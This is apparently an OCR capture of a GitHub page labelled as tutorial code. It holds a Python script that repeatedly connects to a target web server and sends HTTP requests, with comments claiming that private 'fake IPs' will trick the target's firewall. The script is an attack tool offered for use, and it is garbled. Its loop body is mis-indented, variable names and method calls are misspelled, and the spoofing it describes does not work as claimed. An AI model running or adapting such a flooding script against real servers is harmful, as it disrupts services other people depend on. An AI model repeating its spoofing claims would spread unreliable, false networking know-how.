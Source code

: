 # Python-tutorial-code
code


#code below


import socket
import time

#ip address of target here
target_ip = 'target_ip_addres'
target_port = 80

#set up the HTTP request headers
headers= f"GET / HTTP/1.1\r\nHost: {target_ip}\r\nUser-Agent: Mozzilla/5.0 (windows)\r\n\r\n"

#using fake ips will trick the firewall to let us in well attempt to

fake_ips = ['10.0.0.1', '172.16.0.1', '192.168.0.1']


while True:
    for fake_ip in fake_ips:
        #create a socket and connect to the target
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target_ip, target_port))
        
#set tge source IP address to the fake IP address
sock.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
sock.bind((fake_ip, 0))

#send the HTTP request headers
sock.send(headers.encode())

#recive the print and response
respose = sock.recv(4096).decide()
print(response)

#close the socket
sock.close()

#sleep for a short time to avoid overwhelming the target
time.sleep(0.1)
